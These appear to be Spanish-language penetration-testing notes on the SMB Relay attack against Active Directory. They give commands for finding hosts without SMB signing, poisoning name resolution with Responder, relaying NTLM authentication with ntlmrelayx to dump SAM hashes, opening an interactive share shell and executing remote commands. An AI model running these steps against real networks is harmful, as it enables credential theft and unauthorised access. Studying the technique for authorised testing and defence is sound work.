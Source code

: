 # SMB Relay 

Tags: #AD #Attacks #SMBRelay 

El **SMB Relay** (también conocido como **Ataque de relé SMB**) es una técnica utilizada en redes Windows cuando el SMB no esta firmado o no se encuentra forzado 'obligado' en el target, particularmente en entornos que emplean **Active Directory (AD)**, para tomar los **hashes de autenticación** de los usuarios y usarlos para autenticar conexiones en otros equipos, o incluso obtener acceso a servicios y recursos en la red sin necesidad de conocer las contraseñas en texto claro. Las credenciales de los usuarios deben ser de 'admin' en dispositivos con cualquier valor real. 

Este ataque se basa en **capturar** y **retransmitir** solicitudes de autenticación SMB a otros sistemas, lo que permite al atacante **suplantar** al usuario legítimo y autenticarse en el sistema de destino, sin necesidad de descifrar las credenciales.

```bash 
1. Verificar los hosts que no tienen firmado el SMB 'Message signing enabled but not required' 
❯ nmap --script=smb2-security-mode.nse -p445 IP/24 -Pn   

2. Modificar el archivo del 'Responder.conf', cambiar el SMB y HTTP a 'Off'
❯ nvim /etc/responder.Responder.conf

3. Ejecutar el responder y verificar que se aplicaron los cambios 
❯ responder -I eth0 -dwPv    
	# d --DHCP-DNS = Inyecta un servidor DNS en el DHCP reponder
	# w --wpad = Inicia el WPAD proxy server
	# P --ProxyAuth = Fuerza la autenticacion NTLM para el proxy.   
	# v = Verbosidad  

4. Ejecutar la herramienta para aplicar el SMB Relay. Si el ataque fue exitoso, la herramienta nos mostrara los hashes de la SAM   
❯ impacket-ntlmrelayx -tf targets.txt -smb2support
❯ ntlmrelayx.py -tf targets.txt -smb2support              # La versión v0.9.19 es funcional 
	# tf = Target file  

❯ ntlmrelayx.py -tf targets.txt -smb2support -i  
	# i = Obtener una consola interactiva a traves del sistema de archivos en lugar de mostrar los hashes de la SAM 

Podemos usar 'Netcat' para ingresar a la carpeta compartida que nos muestra el comando anterior 
❯ nc 127.0.0.1 11000     # Conexion interactiva a le 'Shared' por el localhost y el puerto 11000
	❯ shares            # Muestra los directorios compartidos 
	❯ use C$            # Ingresamos al directorio 'C:'
	❯ ls                # Listamos lo que se encuentra en el directorio 

❯ ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
	# c = Ejecutar un comando  
```